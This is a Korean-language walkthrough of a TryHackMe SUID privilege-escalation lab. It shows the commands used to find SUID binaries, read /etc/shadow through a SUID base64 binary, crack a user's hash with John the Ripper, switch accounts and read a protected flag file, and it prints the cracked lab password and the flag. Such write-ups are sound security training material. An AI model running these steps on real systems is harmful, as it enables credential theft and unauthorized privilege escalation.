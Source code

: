 ## Privilege Escalation: SUID Binary Exploitation
> TryHackMe의 "Privilege Escalation: SUID" 실습을 기반으로, SUID가 설정된 바이너리 중 `base64` 명령어를 활용해 `/etc/shadow` 파일을 읽고 사용자 계정 정보를 탈취한 후, 계정 크랙과 전환을 통해 플래그를 획득하는 과정을 수행하였다.

---

### 1. 실습 개요
- **타겟 머신 IP**: 10.10.235.109
- **공격 머신**: Kali Linux
- **초기 사용자 계정**: `karen`
- **권한 상승 방법**: `base64` SUID 바이너리 악용
- **실습 일자**: 2025-04-19

---

### 2. 실습 과정

#### 2.1 SSH 접속

```bash
ssh karen@10.10.235.109
```
- 타겟 머신에 karen 계정으로 SSH 접속하여 권한 상승을 위한 탐색을 시작하였다.

![SSH 접속 및 로그인](./screenshots/ssh_connect.png)

---

#### 2.2 SUID 바이너리 검색
```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
- 시스템 전체에서 SUID 권한이 부여된 파일 목록을 검색하였다.
- `/usr/bin/base64` 바이너리에 SUID가 설정되어 있는 것을 발견하였다.

![SUID 파일 검색](./screenshots/suid_search.png)

---
#### 2.3 GTFOBins 참고

- https://gtfobins.github.io/ 사이트를 참고하여 base64 명령어가 SUID로 설정되어 있을 경우 파일을 인코딩 방식으로 우회 접근이 가능하다는 점을 확인하였다.

---
#### 2.4 base64 SUID를 이용한 /etc/shadow 읽기

- 일반적으로 접근할 수 없는 `/etc/shadow` 파일을 base64 명령어로 인코딩 후 디코딩하여 내용을 출력하였다.

```bash
LFILE=/etc/shadow
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 사용자 계정들의 해시된 패스워드를 확보하였다.

![shadow 파일 탈취](./screenshots/base64_suid.png)

---

#### 2.5 hash.txt로 저장 및 john으로 크랙
- 탈취한 해시를 `hash.txt` 파일로 저장하고, john the ripper를 사용하여 크랙하였다.

```bash
john --show hash.txt
```
- `user2`의 비밀번호 `Password1`을 성공적으로 크랙하였다.

![존으로 크랙](./screenshots/john_crack.png)

---

#### 2.6 su 명령어로 user2 계정 전환
```bash
su user2
# Password1 입력
```
- 크랙한 비밀번호를 이용해 `user2` 계정으로 전환하였다.

---

#### 2.7 플래그 파일 찾기 및 base64로 읽기
```bash
find / -name flag3.txt 2>/dev/null
cat /home/ubuntu/flag3.txt  # 권한 없음

LFILE=/home/ubuntu/flag3.txt
/usr/bin/base64 "$LFILE" | base64 --decode
```
- 플래그 파일의 위치를 찾았으나 직접 `cat` 명령으로 읽을 수는 없었다.
- 다시 SUID base64를 활용하여 파일 내용을 인코딩 후 디코딩함으로써 우회적으로 내용을 읽어내어 플래그 획득에 성공하였다.

![flag3.txt 확보](./screenshots/flag_secure.png)

---

### 3. 최종 결과
- 사용자 계정 정보 탈취 및 크랙에 성공.
- SUID 권한이 부여된 `base64`를 이용한 권한 우회에 성공.
- flag3.txt 파일에서 플래그 확보: `THM-3847834`

---

### 4. 배운 점
> ✅ 실습을 통해 SUID 바이너리가 가지는 보안적 위험성과, 평범해 보이는 명령어도 공격에 활용될 수 있음을 명확히 체감할 수 있었다. 특히 nano, less와 같은 텍스트 편집 도구에 SUID가 설정되어 있다면, /etc/shadow 파일을 unshadow 명령어로 복원하고 사전 기반 크랙을 통해 루트 계정까지 탈취할 수 있는 매우 위험한 공격 시나리오도 고려할 수 있었을 것이다.

